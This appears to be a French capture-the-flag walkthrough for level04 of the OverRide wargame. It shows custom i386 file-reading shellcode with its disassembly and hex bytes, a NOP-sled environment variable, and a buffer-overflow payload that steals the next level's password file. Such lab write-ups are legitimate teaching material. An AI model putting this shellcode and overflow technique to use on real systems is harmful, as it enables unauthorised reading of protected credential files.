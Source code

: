 # Level04

Nous remarquons la presence d'un fork, qui nous empeche de garde la main avec un simple shellcode.
Nous devons realiser notre propre shellcode file reader architecture i386,
il fera un open, read et write sur le fichier .pass du level suivant.

Le code asm est disponnible dans le fichier shell.s dans le dossier resources.

Ensuite nous recuperons sont code en hexa grace a obj dump.

```
level04@OverRide:/tmp/test$ objdump -d shellcode

shellcode:     file format elf32-i386

Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c9                	xor    %ecx,%ecx
 8048062:	f7 e1                	mul    %ecx

08048064 <open>:
 8048064:	b0 05                	mov    $0x5,%al
 8048066:	51                   	push   %ecx
 8048067:	68 70 61 73 73       	push   $0x73736170
 804806c:	68 30 34 2f 2e       	push   $0x2e2f3430
 8048071:	68 65 76 65 6c       	push   $0x6c657665
 8048076:	68 72 73 2f 6c       	push   $0x6c2f7372
 804807b:	68 2f 75 73 65       	push   $0x6573752f
 8048080:	68 68 6f 6d 65       	push   $0x656d6f68
 8048085:	68 2f 2f 00 00       	push   $0x2f2f
 804808a:	89 e3                	mov    %esp,%ebx
 804808c:	cd 80                	int    $0x80

0804808e <read>:
 804808e:	93                   	xchg   %eax,%ebx
 804808f:	91                   	xchg   %eax,%ecx
 8048090:	b0 03                	mov    $0x3,%al
 8048092:	66 ba ff 0f          	mov    $0xfff,%dx
 8048096:	42                   	inc    %edx
 8048097:	cd 80                	int    $0x80

08048099 <write>:
 8048099:	92                   	xchg   %eax,%edx
 804809a:	b3 01                	mov    $0x1,%bl
 804809c:	c1 e8 0a             	shr    $0xa,%eax
 804809f:	cd 80                	int    $0x80

080480a1 <exit>:
 80480a1:	93                   	xchg   %eax,%ebx
 80480a2:	cd 80                	int    $0x80
```

Ce qui nous donne :
```
"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x34\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x00\x00\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80"
```

level04@OverRide:~$ export SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80"^C
level04@OverRide:~$ python -c 'print "B" * 156 + "\xb0\xd8\xff\xff"' | ./level04
